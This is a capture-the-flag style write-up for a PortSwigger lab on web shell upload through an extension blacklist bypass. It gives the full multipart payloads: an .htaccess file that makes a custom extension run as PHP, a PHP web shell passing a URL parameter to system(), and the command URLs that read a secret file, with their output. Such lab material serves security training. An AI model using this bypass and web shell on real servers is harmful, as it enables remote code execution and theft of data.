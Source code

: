 # 1 - Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

Reference: https://portswigger.net/web-security/file-upload

----------------------------------------------


Generated endpoint: https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net

Update .htaccess:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/1.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/2.png)

Upload Phpinfo():

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/3.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/4.png)


Update cmdshell:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/5.png)

<br>

RCE:

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
carlos

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/6.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/7.png)
